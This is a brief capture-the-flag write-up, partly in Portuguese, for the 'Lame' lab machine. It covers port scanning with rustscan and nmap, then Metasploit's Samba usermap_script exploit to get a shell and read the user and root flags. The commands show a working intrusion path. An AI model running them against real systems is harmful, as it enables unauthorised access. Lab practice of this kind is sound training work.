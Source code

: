 # ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.3
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6efb5f15-da57-45bb-95c6-ec7ee47a2fa2)

```bash
nmap -A -p 21,22,139,445,332 10.10.10.3 -Pn
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6fcd0ee4-f89b-4ad0-a6f4-7aa9b87c7447)


### FTP - Nada Encontrado


![image](https://github.com/lufffe/Writeups/assets/90646635/02edc325-fa94-4adc-9310-acbc60314a50)

```bash
msfconsole
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59827a74-da5a-42f9-af26-bf5dcdf666f3)

<aside>
💡 https://www.exploit-db.com/exploits/16320
</aside>

![image](https://github.com/lufffe/Writeups/assets/90646635/d61b302a-9f86-4b48-8ffc-946c8b6ff51c)

```bash
search username map script
```

![image](https://github.com/lufffe/Writeups/assets/90646635/30b28df0-9074-42e4-bd3e-b8470a448e65)

###  Metasploit

```bash
msf6 > use 1
```

```bash
msf6 exploit(multi/samba/usermap_script) > show options
```

```bash
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
```

```bash
msf6 exploit(multi/samba/usermap_script) > set lhost 
```

```bash
msf6 exploit(multi/samba/usermap_script) > exploit
```

![image](https://github.com/lufffe/Writeups/assets/90646635/eaad40bd-1792-4292-90d4-d495e3843c7d)

pwd
/home/makis

```bash
cat user.txt
```

pwd /root/
```bash
cat /root/root.txt
```

